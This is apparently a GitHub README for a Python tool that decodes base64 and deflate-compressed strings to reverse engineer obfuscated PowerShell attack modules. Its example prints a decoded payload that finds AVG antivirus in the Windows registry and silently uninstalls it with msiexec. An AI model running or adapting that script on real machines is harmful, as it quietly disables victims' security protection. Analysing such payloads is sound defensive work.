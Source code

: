 # deflate64
Deflate64 - Decoding Base 64 strings, decompress content

Some sploits are a collection of Microsoft Powershell modules that can be used to penetrate systems. The majority of it is made with encoded strings in base 64 and after that compressed in deflate format.
This program decode base 64 strings and decompress them, allowing you to do a reverse engineering to understand what the code does.

Deflate64 works out of the box with Python version '''3.x.x''' on any platform.

### Usage

To get the list of basic options and information about the project:

python deflate64.py -h

### Examples of use:

```sh
 python deflate64.py -u "xZJRa8IwFIXfBf/DJfRBZbWg4sNEhgzdxuYm1tk9FCTEaw2LiUsiCl3/+zKZYp3uaWOPPff03O8e4q0kl8ZSIeo1A21IGAdye//Qv4zDp94o6gy7caTWzUa99qimGPc508qomY0jLqdqbeLrldYo7Ri14UrGz7s8Au8wUxopm0MKyRK8SXUQDqidQ+ZGV070JuAL/opAKp3xTYVsBwYFMgv7nNBqLpNWseDtUZuNc6j/iFcsfMWVDkGBS8iBlyHNn+IuOfysHiWDP8SloMxR9A3vbpBVcYPkgpCDSXB3LLx8Cq2fN400X5TKzsRneebd1QOtEk0X0OMCTYWU0wyFwdTZtPWXWjE0BsjCcNxhgU914rRgk1sFELxJCKQraPuz80WUW8iy1qna6rV8be5pHtXmHO2c4c9q+77pdG3O98u1ucTztX0A"--txt example.txt
```

Result (content example.txt):
 
 ```sh
&uninstall32s = gci "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall" | foreach { gp $_.PSPath } | ? { $_ -like "*AVG*" } | select UninstallString;
$uninstall64s = gci "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall" | foreach { gp $_.PSPath } | ? { $_ -like "*AVG*" } | select UninstallString;

foreach($uninstall64 in $uninstall64s) {
$uninstall64 = $uninstall64.UninstallString -Replace "MsiExec.exe","" -Replace "/I","" -Replace "/X","";
$uninstall64 = $uninstall64.Trim();
if($uninstall64 -like "*Program Files*"){}else{start-process "msiexec.exe" -args "/x $uninstall64  /qn /norestart" -Wait }};
foreach($uninstall32 in $uninstall32s) {
$uninstall32 = $uninstall32.UninstallString -Replace "MsiExec.exe","" -Replace "/I","" -Replace "/X","";
$uninstall32 = $uninstall32.Trim();
if($uninstall32 -like "*Program Files*"){}else{start-process "msiexec.exe" -args "/x $uninstall32  /qn /norestart" -Wait }};
```
